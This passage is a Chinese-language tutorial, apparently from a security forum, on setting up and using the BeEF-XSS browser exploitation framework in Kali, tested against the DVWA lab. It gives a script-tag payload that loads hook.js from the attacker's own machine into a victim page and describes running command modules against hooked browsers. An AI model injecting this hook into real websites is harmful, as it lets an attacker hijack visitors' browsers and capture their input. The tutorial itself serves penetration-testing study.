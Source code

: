 ```html
http://192.168.29.131:3000/ui/authentication
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f468e376fbe5b7a1e3632f13ee3e4fb61daad3fc.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f468e376fbe5b7a1e3632f13ee3e4fb61daad3fc.png)  
查看账号密码（也可进行更改）  
找到配置文件（kali默认在/etc/beef-xss/config.yaml中）；

```html
cat /etc/beef-xss/config.yaml
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ef9c3fbf323fd1b7c167ad6768f7f2bc00a4ba77.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ef9c3fbf323fd1b7c167ad6768f7f2bc00a4ba77.png)

**BeEF-XSS主页面介绍**  
启动BeFF-XSS并登陆进去  
方式一：在命令行中打beef-xss  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-bd82412715804d18c2128773ac7c50dfa6b1816e.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-bd82412715804d18c2128773ac7c50dfa6b1816e.png)  
方式二：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d100ffe4c9326f91cc4e9ec09f9d58d7b653eb1b.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d100ffe4c9326f91cc4e9ec09f9d58d7b653eb1b.png)  
启动后的界面  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0fe19110702437ede69b7ad1ae827dffefbc014f.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0fe19110702437ede69b7ad1ae827dffefbc014f.png)

**Hocked Browers：**  
online browers 在线浏览器  
offline browers 离线浏览器  
**Detials：**浏览器、插件版本信息，操作系统信息  
**Logs：**浏览器动作：焦点变化，鼠标单击，信息输入  
**commands：**  
绿色模块：表示模块适用当前用户，并且执行结果对用户不可见  
红色模块：表示模块不适用当前用户，有些红色模块也可以执行  
橙色模块：模块可用，但结果对用户可见  
灰色模块：模块为在目标浏览器上测试过  
**payload**  
这里需要把图中红框中的payload复制粘贴到你的目标xss的位置，然后将其中的&lt;IP&gt;改成你这台kali的IP地址，最终payload为：

```html
'<script src="http://X.X.X.X:3000/hook.js"></script>'
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d522a246565e013e2777c301091d4732e6045858.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d522a246565e013e2777c301091d4732e6045858.png)

**BeEF的使用方法**  
这里我们使用DVWA做实验：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-64a0949654a7ed937d672bd03c03e3b8206e200d.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-64a0949654a7ed937d672bd03c03e3b8206e200d.png)  
这时候再回到BeEF中查看，会发现online browers中多了点东西  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a2379ea0a57073252b8840c45fadeaf411eeea2e.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a2379ea0a57073252b8840c45fadeaf411eeea2e.png)  
打开"current Browsers" 下的"commands",就可以运行模块对目标系统进行入侵。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c7028e3d18b2f156b491d86950ed23101a9ac854.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c7028e3d18b2f156b491d86950ed23101a9ac854.png)  
例子：选择"Brower"下面的"Hooked Domain"的create Alert Dialog（弹窗 ），点击右下角的"execute"运行  